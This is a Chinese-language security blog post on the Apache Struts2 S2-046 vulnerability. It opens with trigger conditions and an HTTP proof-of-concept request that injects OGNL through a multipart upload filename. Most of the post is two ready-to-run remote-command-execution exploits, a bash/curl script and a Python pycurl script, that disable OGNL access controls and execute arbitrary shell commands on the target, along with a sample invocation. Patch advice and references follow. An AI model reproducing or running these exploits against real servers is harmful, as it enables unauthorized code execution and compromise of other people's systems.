 ```yaml
---
title: Struts2-046漏洞
date: 2017-03-21 10:41:05
comments: true
tags: struts2
categories: web安全
---
```

<blockquote class="blockquote-center">屋漏偏逢连夜雨，船迟又遇打头风</blockquote>
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*

### 触发条件
1.上传文件的大小（由Content-Length头指定）大于Struts2允许的最大大小（2GB）。
2.文件名内容构造恶意的OGNL内容。

<!--more -->

### S2-046PoC
```bash
POST /doUpload.action HTTP/1.1
Host: localhost:8080
Content-Length: 10000000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--
```
### Exp
#### Sh版
```bash
#!/bin/bash

url=$1
cmd=$2
shift
shift

boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")

printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```
sh exploit-cd.sh http://xxx.com/action "whoami"

#### Python版
```bash
__author__ = 'hackteam.cn'
import pycurl
import StringIO
import urllib
def tt(url,data):
    sio = StringIO.StringIO()
    c = pycurl.Curl()
    c.setopt(pycurl.URL, url)
    c.setopt(pycurl.REFERER, url)
    c.setopt(pycurl.HTTPHEADER, ['Connection: close', 'Content-Type: multipart/form-data; boundary=---------------------------735323031399963166993862150', 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36'])
    c.setopt(pycurl.HTTP_VERSION, pycurl.CURL_HTTP_VERSION_1_0)
    c.setopt(pycurl.POST, 1)
    c.setopt(pycurl.POSTFIELDS, data)
    c.setopt(pycurl.CONNECTTIMEOUT, 300)
    c.setopt(pycurl.TIMEOUT, 300)
    c.setopt(pycurl.WRITEFUNCTION, sio.write)
    try:
        c.perform()
    except Exception, ex:
        pass
    c.close()
    resp = sio.getvalue()
    sio.close()
    return resp

data="-----------------------------735323031399963166993862150\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n-----------------------------735323031399963166993862150--\r\n\r\n"
print tt('https://xxx.action',data)
```
### 修复建议
1. 严格过滤 Content-Type 、filename里的内容，严禁ognl表达式相关字段。
2. 如果您使用基于Jakarta插件，请升级到Apache Struts 2.3.32或2.5.10.1版本。（强烈推荐）

### 官网公告
https://cwiki.apache.org/confluence/display/WW/S2-045
https://cwiki.apache.org/confluence/display/WW/S2-046


### 补丁地址
Struts 2.3.32：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.32 
Struts 2.5.10.1：https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.10.1 


### 参考
http://struts.apache.org/docs/s2-045.html
http://struts.apache.org/docs/s2-046.html
https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723


欲知Struts2-045请参考：[struts2_045漏洞](http://thief.one/2017/03/07/Struts2-045%E6%BC%8F%E6%B4%9E/)
欲知Struts2历史Poc请参数：[struts2漏洞poc汇总](http://thief.one/2017/03/13/Struts2%E6%BC%8F%E6%B4%9EPOC%E6%B1%87%E6%80%BB/)

转载请说明出处:[Struts2_046漏洞](http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)
本文地址：http://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/